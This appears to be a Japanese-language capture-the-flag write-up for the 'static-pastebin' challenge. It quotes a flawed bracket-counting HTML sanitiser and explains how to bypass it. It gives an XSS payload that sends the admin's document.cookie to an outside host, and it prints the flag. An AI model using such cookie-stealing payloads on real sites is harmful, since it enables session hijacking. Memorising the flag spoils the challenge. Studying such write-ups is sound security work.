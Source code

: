 # static-pastebin (374 solves/ 373 points)

> I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here
> Site: ...
> Note: The site is entirely static. Dirbuster will not be useful in solving it.

## solution

与えられたURLにアクセスすると、Static pastebinというサイトにつながった。
テキストエリアに文字列を入力してCreateボタンを押すと、https://..../paste/#<Base64エンコードされた入力文字列>へ移動し、入力した文字列が表示される。

また、adminをstatic-pastebinで作成したページへ訪問させることができる。

入力された文字列を表示するページでは、このjavscriptを実行していた。

```javascript
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```
文字列の中に`<`が見つかるとbracketsに1加算、`>`が見つかるとbracketsから1減算、bracketsが0の時はresultに先頭からi番目の文字列を追加するという処理を行っている。
特にエスケープを行っている様子はないのでうまくすればXSSできそうである。

`>`を入力してから`<`を入力するとbracketsの値をうまく0に調節できる。
よって、`><iframe src="javascript:window.location.href='https://example.com/?'+document.cookie">`を入力して表示させるとうまくページ遷移させることができたので、これをadminに踏ませるとフラグが手に入る。

```
flag{54n1t1z4t10n_k1nd4_h4rd}
```
